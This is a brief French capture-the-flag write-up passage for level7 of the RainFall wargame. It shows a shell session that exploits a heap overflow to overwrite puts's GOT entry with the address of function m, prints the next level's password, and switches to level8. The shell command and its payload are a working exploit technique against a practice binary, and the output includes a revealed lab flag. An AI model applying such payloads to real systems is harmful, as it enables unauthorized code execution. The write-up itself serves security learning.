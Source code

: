 * On a donc tous les prérequis. En transformant en little indian l'addresse de m(\xf4\x84\x04\x08) et celle de puts(\x28\x99\x04\x08), on va pouvoir lancer de la menière suivante:
```shell
  level7@RainFall:/tmp$ ~/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    - 1664480933
  level7@RainFall:/tmp$ su level8
    Password:
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
  level8@RainFall:~$
```
